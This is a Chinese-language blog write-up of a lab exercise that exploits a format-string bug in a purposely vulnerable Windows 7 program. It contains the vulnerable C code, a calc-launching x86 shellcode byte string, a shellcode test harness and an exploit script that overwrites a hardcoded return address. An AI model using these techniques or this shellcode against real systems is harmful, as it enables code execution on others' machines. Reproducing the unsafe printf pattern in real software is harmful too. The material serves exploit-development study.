 ```yaml
---
layout:     keynote
title:      "windows格式化字符串漏洞探究"
subtitle:   "集Fsb漏洞构造、分析、利用的小实验"
iframe:     ""
navcolor:   "invert"
date:       2016-11-16
author:     "carter"
header-img: "img/post-bg-re-vs-ng2.jpg"
header-mask: 0.3
tags:
    - OS
    - Windows
    - pwn
---
```



### 知识点：
- windows下的格式化字符串fsb利用   
- 利用mona查询各个模块开启安全机制   
- win7弹计算器shellcode
- 如何调试shellcode

### 一. 程序代码：

```c++
#include "stdafx.h"
#include<stdio.h>
#include<stdlib.h>
#include <string.h>
int main (int argc, char *argv[])
{
    char buff[1024];
    FILE*f;
    
    f=fopen("flag.txt","r");
    fread(buff,1024,3,f);
    printf(buff); //触发漏洞
  return 0;
}
```

程序的流程是从flag.txt中读取字符串再打印出来。很明显，程序中存在一个windows下的格式化字符串漏洞。

### 二. 基本知识：

##### **1. 格式化字符串相关知识**

%x：依次打印出栈上数据
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/1.png)
%100x：指定数据打印时显示长度为100字节

%n：打印出栈上数据作为地址时，该地址的内容（当该地址不可达时，就会崩溃）

##### **2. 设置immunity debugger为默认调试器**
直接在注册表里修改，该方法比较简单粗暴:

HKEY_LOCAL_MACHINE -->  SOFTWARE --> Microsoft --> Windows NT --> CurrentVersion --> AeDebug
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/4.png)
(PS：同样方法，win7下设置Ollydbg为默认调试器一直失败，但是设置immunityDbg为默认调试器则可以，不知道为什么)

##### **3. windows7_32bit 弹计算器shellcode**
```python
shellcode = '\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5'
```

##### **4.  如何调试shellcode**
```c++
#include "stdafx.h"
#include<stdio.h>
#include<windows.h>

int main(int argc, char* argv[])
{
    //导入ShellCode中要使用的.dll
    LoadLibrary("kernel32.dll"); 
    char shellcode[256] = "\x90\x90\x90...\x90";        

    __asm{ 
       lea eax,shellcode 
       push eax 
       ret;           //ret到ShellCode处
    } 
    return 0;
}
```
结合IDA，定位到具体代码，就可以跟进到shellcode处，查看shellcode的执行情况了

##### **5. 查看程序开启安全机制**

在immunity Debugger中，使用 
```python
!mona modules
```
可以查看程序各个加载模块对应开启的安全机制
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/5.png)
上图可见，对于程序本身什么安全机制都没开启。因为程序没有开启数据执行保护DEP，所以可以把shellcode放在栈上，攻击返回地址后跳转到shellcode处执行。


### 三. 漏洞调试
首先使用'%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/6.png)
使用'%x-%x-%x-%x-%n'作为printf函数的唯一参数，此时崩溃现场如图
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/7.png)
从上面两次尝试中可以看出，程序崩溃是因为'%n'这个参数，在
```
mov ptr[EAX], ECX
```
这条指令时因为EAX内容作为地址不可达，所以触发程序崩溃。
崩溃时EAX是当时'%n'应该打印的那个栈地址内容，ECX是崩溃时已经打印出来的字符长度：

```
%x-%x-%x-%n --> ECX：0xD=13
%x-%x-%x-%x-%n --> ECX：0x16=22
```

对比下图，可以验证说法正确性
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/8.png)

### 四. 漏洞利用
我们可以通过控制打印栈上内容的数量（即增加%x的数量），控制EAX的值。可以通过控制打印字符的长度（用%100x，%200x等来控制打印长度），控制ECX的值。最后利用mov ptr[EAX],ECX来任意地址写。

内存任意写写哪个地方--------最快捷的方法，就是覆盖最近函数的返回地址为shellcode的地址

alt+k查看栈回溯，可以看到最近的一个返回地址存储在栈地址0x12faf0
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/9.png)
崩溃时，查看栈，确定存储输入的起始地址是0x12fb48
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/10.png)
所以我们的目的就是令：EAX=0x12FaF0  ECX=0x12FB48

### 五. 编写漏洞利用脚本
输入构造为：
- shellcode
- 相应多的%x
- 一些%nx来调整输出长度
- 需要被覆盖的地址

**exp.py**

```python
shellcode = '........'
ret_addr = '\xf0\xfa\x12\x00'
input1 = shellcode + '-%x'*218 + '%414000x' + '%414000x' + '%413908x' + '%n' + ret_addr

with open('flag.txt','wb') as f:
    f.write(input1)    
```

为了效果，我在shellcode开头字节设置了0xCC -- int3，运行exp.py生成flag.txt，运行fsb.exe从flag.txt读取字符后使用printf函数打印，成功触发Fsb漏洞
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/11.png)
弹出可爱的计算器
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-11-17-windows-pwn/12.png)

## 六. 问题解决
**问题描述：**

 之前实验中使用strcpy复制字符串到内存，但是发现有些字节复制到内存后变为了'\x3f' -- '?'，比如：
 ```
\x8b\x36 --> \x3f
```

**解决方法：**

strcpy和strncpy都是针对可见字符而言的，不能复制不可见字符，且遇到'\x00'就停止复制。

与 strcpy() 不同的是，memcpy(*memTo,*memFrom,num) 会完整的复制 num 个字节，对复制内容没有限制，也不会因为遇到“\0”而结束。

PS: 在此最终采用了fread函数从文件中读取的方式读取payload到内存


参考链接：
[http://bbs.pediy.com/showthread.php?t=213153](http://bbs.pediy.com/showthread.php?t=213153)


